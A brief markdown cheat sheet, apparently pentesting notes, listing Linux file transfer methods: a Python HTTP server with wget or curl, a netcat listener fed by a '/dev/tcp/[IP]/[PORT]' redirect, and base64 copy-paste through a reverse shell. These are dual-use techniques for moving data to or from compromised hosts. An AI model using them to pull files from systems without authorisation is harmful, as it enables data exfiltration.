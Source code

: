# Linux File Transfer Methods

## HTTP
### Source Machine
```
python3 -m http.server [PORT]
```
### Destination Machine
#### Wget
```
wget [URL] -O [OUTPUT FILE]
```
#### cURL
```
curl -o [OUTPUT FILE] [URL]
```
## Netcat
### Source Machine
```
nc -nvlp [PORT] > [OUTPUT FILE]
```
### Destination Machine
```
cat [FILE NAME] > /dev/tcp/[IP]/[PORT]
```
## Reverse Shell
### Source Machine
#### Copy Content
```
cat [FILE] | base64 -w 0; echo
```
### Destination Machine
```
echo [CLIPBOARD] | base64 -d > [OUTPUT FILE]
```
